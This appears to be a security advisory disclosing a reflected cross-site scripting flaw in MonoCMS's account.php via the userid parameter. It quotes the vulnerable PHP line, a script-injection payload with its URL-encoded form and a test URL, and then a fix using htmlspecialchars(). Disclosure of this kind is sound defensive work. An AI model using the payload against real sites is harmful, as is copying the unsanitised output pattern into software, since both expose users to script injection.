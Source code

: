 # [XSS vulnerability] found in MonoCMS 23-20240528 - (/monofiles/account.php)


Affected Project: **MonoCMS**

Web: Php

Vendor: MonoCMS

Official Website: (https://monocms.com/)

Version: 23-20240528

Updated: 28 May, 2024

Related Code file: /monofiles/account.php

Injection parameter: userid

<br />

Sha1: 9532cda20cf7fa456d6f00ce0fe194767913ba83

<br />

## Vulnerability Description:
The issue arises because the userid parameter from the URL is being directly inserted into the value attribute of an HTML input element without proper sanitization. 
This allows an attacker to inject arbitrary HTML or JavaScript code leading to an XSS attack.


## Vulnerable code:

<input name="hiddenid" type="text" value="<?php if (isset($_GET['userid'])) print $_GET['userid'] ?>" hidden>



## Injection Payload Tested:

We set userid to:

"><script>alert('XSS')</script>



## URL-encoded, this becomes:

%22%3E%3Cscript%3Ealert('XSS')%3C/script%3E



## Resulting HTML After Injection:

<input name="hiddenid" type="text" value=""><script>alert('XSS')</script>" hidden>



The injected "></script> closes the value attribute and the input tag, allowing the <script> tag to be inserted into the DOM.



## Execution:

When the browser parses this HTML, it executes the <script>alert('XSS')</script> code, resulting in a popup displaying "XSS by secuserx".



## Demonstration:

Below is how /monofiles/account.php looks like:

1.png


Then we can add our payload "><script>alert('XSS by secuserx')</script> :

http://localhost:8080/monofiles/account.php?userid="><script>alert('XSS by secuserx')</script>

2.png


After submitting the url with the vulnerable parameter userid and the XSS payload "><script>alert('XSS by secuserx')</script>, XSS is triggered:

3.png



## Recommendation for Preventing XSS:

To fix this vulnerability, we must always sanitize user inputs before rendering them in the HTML. We can use functions like htmlspecialchars() in PHP to encode special characters.

Example:

<input name="hiddenid" type="text" value="<?php if (isset($_GET['userid'])) print htmlspecialchars($_GET['userid'], ENT_QUOTES, 'UTF-8') ?>" hidden>




> One Click Can Change Everything: Be Secure.
